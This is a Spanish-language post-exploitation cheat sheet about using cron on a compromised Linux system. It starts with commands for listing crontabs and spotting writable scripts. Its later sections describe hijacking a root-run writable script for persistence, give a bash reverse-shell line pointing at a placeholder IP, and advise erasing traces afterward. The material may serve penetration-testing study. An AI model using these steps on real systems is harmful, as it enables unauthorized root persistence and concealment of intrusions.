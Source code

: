 `crontab` y los archivos relacionados con cron son una de las primeras cosas que revisar tras comprometer un sistema Linux. Sirven para:

- Identificar persistencia programada
- Encontrar scripts mal configurados con permisos inseguros
- Insertar comandos propios para mantener acceso o ejecutar payloads

---

## 1. Listar cron del usuario actual
```bash
crontab -l
```

---

## 2. Editar cron del usuario actual (si tienes permisos)
```bash
crontab -e
```

---

## 3. Cron del sistema y otros usuarios
```bash
cat /etc/crontab
ls -la /etc/cron* /var/spool/cron/
```

- `/etc/crontab`: tareas del sistema globales
- `/etc/cron.d/`, `/etc/cron.hourly/`, etc.: otros directorios programados
- `/var/spool/cron/<usuario>`: tareas de usuario

---

## 4. Buscar tareas con permisos inseguros
```bash
find /etc/cron* /var/spool/cron* -type f -exec ls -l {} \;
```

También puedes buscar scripts referenciados en `crontab` y verificar:
```bash
ls -l /ruta/del/script.sh
```

---

## 5. Abuso de cron para persistencia
Si encuentras una tarea ejecutada por `root` que llama a un script escribible por ti:
1. Edita ese script y añade un reverse shell o payload
2. Espera a que el cron se ejecute automáticamente

---

## Ejemplo de reverse shell en un script
```bash
echo "bash -i >& /dev/tcp/TU_IP/4444 0>&1" >> /ruta/del/script.sh
```

---

## Limpieza
Una vez explotado:
- Restaura el contenido original si fue alterado
- Limpia tu rastro del archivo o del cron

---